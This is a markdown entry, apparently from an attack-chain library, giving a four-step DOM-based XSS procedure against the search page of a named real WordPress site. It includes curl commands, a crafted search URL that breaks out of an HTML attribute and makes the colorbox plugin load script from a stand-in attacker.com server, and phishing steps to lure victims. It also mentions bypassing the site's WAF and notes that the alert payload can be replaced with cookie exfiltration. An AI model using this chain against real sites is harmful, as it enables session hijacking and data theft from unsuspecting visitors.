

---
tags:
  - xss
  - dom-xss
  - javascript
  - wordpress
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Craft-Malicious-Search-URL-for-XSS-Injection]]'
  - '[[procedures/Set-Up-Attacker-Server-for-Payload-Delivery]]'
  - '[[procedures/Trigger-XSS-via-Victim-Interaction-with-Colorbox]]'
  - '[[procedures/Execute-Malicious-Script-in-Victims-Browser]]'
step_count: 4
techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
updated_at: '2025-12-14T17:28:20.339Z'
description: >-
  A multi-stage DOM-based XSS attack exploiting unencoded search query insertion
  in SecNews, enabling JavaScript execution via user interaction and external
  payload delivery.
skill_level: intermediate
impact_level: high
id: 792fe08f-0a5b-44ea-a79f-b68fe4734299
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Initial Access]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
---
# DOM-based XSS in SecNews Search Leading to Arbitrary JavaScript Execution

Multi-stage attack chain demonstrating a complete DOM-based XSS workflow in the SecNews WordPress site's search functionality, where the 's' parameter is reflected without proper encoding, allowing attribute breakout and injection of malicious attributes that load external JavaScript via the colorbox plugin upon user interaction.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard web tools like curl for verification)

### Target Environment

- WordPress-based website (e.g., secnews.gr)
- Search functionality endpoint
- Exposed to public internet
- Colorbox JavaScript plugin active

### Initial Access Requirements

- No credentials needed
- Public network access to target
- Control over an external server for payload hosting

## Detailed Attack Procedures

### Step 1: Lure Victim to Malicious Search URL
procedure: [[procedures/Craft-Malicious-Search-URL-for-XSS-Injection]]

**Objective**: Create and distribute a search URL that injects malicious attributes into the DOM, breaking out of the data-currentquery attribute to add a colorbox class and href pointing to the attacker's server.

**Instructions**: Construct the URL with a payload that uses an unencoded single quote to escape the attribute. Use [[commands/Verify-DOM-based-XSS-Injection-with-Curl]] to test the injection locally before luring the victim:

```bash
curl -s 'https://www.secnews.gr?s=%27%3E%3Ctest%3E%3C' | egrep -o ".{47}?<test>.*?>"
```

Share the crafted URL (e.g., https://www.secnews.gr/?s=%27%20class%3Dcolorbox%20href=/attacker.com:9999%3E) via phishing or social engineering to entice the victim to visit and perform a search.

**Expected Output**: The page loads with injected attributes visible in the HTML source, such as data-currentquery breaking out to include class="colorbox" href="/attacker.com:9999".

**Success Indicators**:
- Victim visits the URL and the page renders without errors
- HTML inspection shows attribute breakout and injected colorbox elements

### Step 2: Set Up Attacker Server
procedure: [[procedures/Set-Up-Attacker-Server-for-Payload-Delivery]]

**Objective**: Host a server that responds with a malicious JavaScript payload when the victim's browser requests content via the injected href, bypassing WAF by using a staging domain if needed.

**Instructions**: Launch a simple HTTP server on port 9999 at attacker.com. Configure it to return a 200 OK response with CORS headers and the payload <script>alert(document.domain)</script>. No specific command needed beyond standard server setup (e.g., using Python's http.server or Node.js).

**Expected Output**: Server logs show incoming requests from the victim's IP when the colorbox loads.

**Success Indicators**:
- Server is accessible at http://attacker.com:9999
- Response includes the script payload and necessary headers like Access-Control-Allow-Origin: *

### Step 3: Trigger XSS via Victim Interaction
procedure: [[procedures/Trigger-XSS-via-Victim-Interaction-with-Colorbox]]

**Objective**: Induce the victim to interact with the page (e.g., click below the navigation bar) to activate the colorbox plugin, which fetches and inserts the external payload into the DOM.

**Instructions**: The malicious URL is already set to inject the colorbox trigger. Monitor for victim interaction; no direct command, but verify setup with [[commands/Verify-DOM-based-XSS-Injection-with-Curl]] to ensure the href is present:

```bash
curl -s 'https://www.secnews.gr?s=%27%20class%3Dcolorbox%20href=/attacker.com:9999%3E' | grep -i colorbox
```

Encourage interaction via the lure (e.g., "Click here for search results").

**Expected Output**: Browser network tab shows a request to attacker.com:9999 upon click.

**Success Indicators**:
- Victim clicks the injected element
- Colorbox loads external content without blocking

### Step 4: Execute Malicious Script
procedure: [[procedures/Execute-Malicious-Script-in-Victims-Browser]]

**Objective**: The fetched payload executes in the victim's browser context, demonstrating arbitrary JavaScript execution for potential session hijacking or data theft.

**Instructions**: The execution is automatic upon colorbox insertion. For proof-of-concept, the payload alerts the document domain. In a real attack, replace with code to exfiltrate cookies or perform actions on the victim's behalf.

**Expected Output**: Alert box pops up showing "www.secnews.gr" or similar, confirming execution.

**Success Indicators**:
- JavaScript runs in the secnews.gr domain context
- No CSP or other protections block the script

## Attack Chain Summary

### Key Achievements

1. Successful DOM breakout via unencoded search parameter
2. Bypassed CloudFlare WAF using staging domain
3. Achieved arbitrary JS execution without direct payload in URL
4. Demonstrated potential for high-impact attacks like session theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Initial Access]]

---

*Last updated: 2023-10-01T00:00:00Z*
